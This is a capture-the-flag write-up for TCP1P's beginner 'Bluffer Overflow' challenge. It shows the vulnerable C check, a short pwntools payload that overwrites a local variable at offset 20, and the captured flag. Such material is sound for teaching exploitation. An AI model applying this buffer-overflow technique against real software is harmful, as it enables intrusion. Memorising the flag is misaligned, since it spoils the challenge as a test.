


# Bluffer Overflow

## Information
**Category:** |
--- | 
PWN |

**Description:** 
~~~
Maybe it's your first time pwning? Can you overwrite the variable?

nc ctf.tcp1p.com 17027
~~~

## Solution
```c
    if (buff2 > 5134160) {

        printf("Too high!\n\n");

    } else if (buff2 == 5134160){

        printf("Congrats, You got the right value!\n");

        system("cat flag.txt");

    } else {

        printf("Sad, too low! :(, maybe you can add *more* value 0_0\n\n");

    }

    printf("\nOutput : %s, Value : %d \n", buff, buff2);
```

Inspection the source code we know that we need to make `buff2 == 5134160`, we can see it output our `input/buff` and `buf2` value

So, we can overflow the input using cyclic for for overwriting the buff2 value and finding the offset



After we get the offset we can make the exploit like this below
```py
payload = flat({
    20:  5134160,
})
io.sendline(payload)
log.success(io.recvall())
```


>    TCP1P{ez_buff3r_0verflow_l0c4l_v4r1abl3_38763f0c86da16fe14e062cd054d71ca}
